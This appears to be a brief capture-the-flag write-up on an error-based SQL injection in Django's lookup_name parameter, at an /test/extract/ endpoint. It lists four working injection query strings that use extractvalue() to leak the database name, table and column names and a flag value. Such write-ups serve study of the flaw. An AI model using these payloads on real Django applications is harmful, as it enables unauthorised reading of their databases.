 # New CVE

<img src="attachments/0.jpg" title="" alt="" width="527">

It's Django SQL injection.

I use Error-Based SQL injection.

Locate to /test/extract/?lookup_name=year

Use this query string

```
?lookup_name=year FROM start_datetime)) OR 1=1 and extractvalue(1,concat(1,(select database())))-- #cve
?lookup_name=year FROM start_datetime)) OR 1=1 and extractvalue(1,concat(1,(select table_name from information_schema.tables where table_schema=database() limit 0,1)))-- #flag
?lookup_name=year FROM start_datetime)) OR 1=1 and extractvalue(1,concat(1,(select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 0,1)))-- #flag_value
?lookup_name=year FROM start_datetime)) OR 1=1 and extractvalue(1,concat(1,(select concat(flag_value) from flag)))--
```

![](attachments/1.jpg)

